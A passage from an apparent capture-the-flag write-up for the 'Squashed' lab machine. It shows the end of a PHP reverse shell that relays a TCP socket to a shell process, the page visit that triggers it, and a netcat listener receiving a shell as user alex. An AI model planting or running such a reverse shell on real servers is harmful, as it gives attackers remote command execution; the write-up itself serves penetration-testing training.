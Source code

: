 ```bash
	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```


Browsed to http://10.10.11.191/login.php

Attack machine got the connection:   
```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [10.10.14.166] from (UNKNOWN) [10.10.11.191] 33786
Linux squashed.htb 5.4.0-131-generic #147-Ubuntu SMP Fri Oct 14 17:07:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 12:17:25 up 15:04,  1 user,  load average: 0.01, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               Sun21   15:04m  1:25   0.02s /usr/libexec/gnome-session-binary --systemd --session=gnome
uid=2017(alex) gid=2017(alex) groups=2017(alex)
/bin/sh: 0: can't access tty; job control turned off
```
